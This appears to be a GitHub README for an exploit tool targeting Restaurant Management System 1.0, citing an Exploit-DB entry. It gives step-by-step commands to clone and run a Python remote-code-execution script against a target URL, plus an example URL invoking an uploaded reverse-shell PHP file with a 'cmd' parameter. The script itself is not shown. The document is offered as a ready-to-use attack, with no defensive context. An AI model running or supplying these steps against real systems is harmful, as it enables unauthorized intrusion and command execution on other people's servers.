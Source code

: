 # Restaurant-Management-System-1.0-RCE

### Reference Source
```
https://www.exploit-db.com/exploits/47520
```
### Usage
```
git clone https://github.com/binaryxploit/Restaurant-Management-System-1.0-RCE.git
cd Restaurant-Management-System-1.0-RCE
chmod +x rms-rce.py
python3 rms-rce.py http://target-url/
```

### RCE URL - Example
```
http://target-url/rms/images/reverse-shell.php?cmd=whoami
```
